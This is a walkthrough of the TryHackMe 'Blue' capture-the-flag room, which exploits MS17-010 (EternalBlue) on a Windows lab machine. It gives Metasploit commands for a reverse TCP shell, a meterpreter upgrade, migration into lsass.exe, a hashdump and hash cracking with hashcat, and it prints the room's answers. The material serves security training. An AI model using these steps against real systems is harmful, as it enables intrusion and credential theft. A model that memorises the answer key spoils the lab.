# [Blue][1]
Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

### [TASK 1] Recon

Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].



How many ports are open with a port number under 1000? **3**

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) **ms17-010**
> To do that run nmap with *vuln* script. Command is `sudo nmap --script=vuln -Pn <IP>`



### [TASK 2] Gain Access

Start Metasploit
> In terminal, type `msfconsole`

Find the exploitation code we will run against the machine. What is the full path of the code? **exploit/windows/smb/ms17_010_eternalblue**

> To search for eteranlblue payloads type, `search ms17-010`



To use this exploit, type `use 2`

Show options and set the one required value. What is the name of this value? **RHOSTS**

Set the payload as windows shell using the command `set payload windows/x64/shell/reverse_tcp`

> Make sure to check the *LHOST*, it should be the IP from your VPN connection with TryHackMe.



With that done, run the exploit!
> Type, `run` or `exploit` to execute the payload.

### [TASK 3] Escalate

Type, `background` to send the current session in background or you could just do `Ctrl+Z`.



Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? **post/multi/manage/shell_to_meterpreter**
> Well, you could go online and check this. As the hint says *Google: shell_to_meterpreter*. Why don't we search this in metasploit database.



Select this (use MODULE_PATH). Show options, what option are we required to change? **SESSION**



Set the required option, you may need to list all of the sessions to find your target here.
> Type, `sessions` to get all the current sessions in metaspolit. Note the number for the session that has eternal blue exploit.



Run! If this doesn't work, try completing the exploit from the previous task once more.
> Type, `run` or `exploit` to execute the payload. Just press enter when it says Stopping ...



Once the meterpreter shell conversion completes, select that session for use.
> Type, `sessions <id>`. Where *id* is the number of session which we just created i.e. *shell_to_meterpreter* one.



Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

`getsystem`

`shell`

`whoami`



Press `Ctrl+Z` to go back.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id (far left column).
> The Process we are interested in here is **lsass.exe**. Copy the Process ID. Why this? read the below question :relaxed:



Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
> In my case, it is 716 so `migrate 716`.



### [TASK 4] Cracking

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? **Jon**



Copy this password hash to a file and research how to crack it. What is the cracked password? **alqfna22**

> The format for the hash is **Userame:LM_HASH:NTLM_HASH:::**. Copy the *NTLM_HASH* and past it onto [Crack Station's Website][3].

> You can also use hashcat. Check the [hashcat cheatsheet][4]. Paste the hash in a text file in format **USERNAME:NTLM_HASH**. Use, `hashcat -a 0 -m 1000 hash.txt rockyou.txt --force --username --show`

### [TASK 5] Find flags!

Flag1? This flag can be found at the system root.  
> Located in the C drive i.e. ***C:\***.



Flag2? This flag can be found at the location where passwords are stored within Windows.
> Located where passwords are stored and i.e. ***C:\Windows\System32\config***



Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
> Located in the Documents folder i.e. ***C:\Users\Jon\Documents***



[1]: https://tryhackme.com/room/blue
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://crackstation.net/
[4]: https://github.com/frizb/Hashcat-Cheatsheet
